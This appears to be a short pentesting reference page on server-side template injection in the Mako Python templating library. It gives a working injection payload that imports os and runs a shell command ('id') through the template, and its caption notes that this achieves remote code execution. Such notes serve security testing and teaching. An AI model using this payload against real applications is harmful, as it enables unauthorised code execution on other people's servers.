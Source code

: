 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mako

[Mako](https://www.makotemplates.org/) is a Python template library that compiles into Python modules for high performance. It uses a non-XML syntax inspired by Django, Jinja2, Cheetah, and others. Mako functions as an embedded Python language, offering a simple, flexible model with strong support for Python's calling and scoping semantics.

## SSTI

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

<figure><img src="../../../../.gitbook/assets/glau_ssti_id.png" alt=""><figcaption><p>Figure 1: Achieving RCE through a SSTI flaw on a Mako templating engine.</p></figcaption></figure>
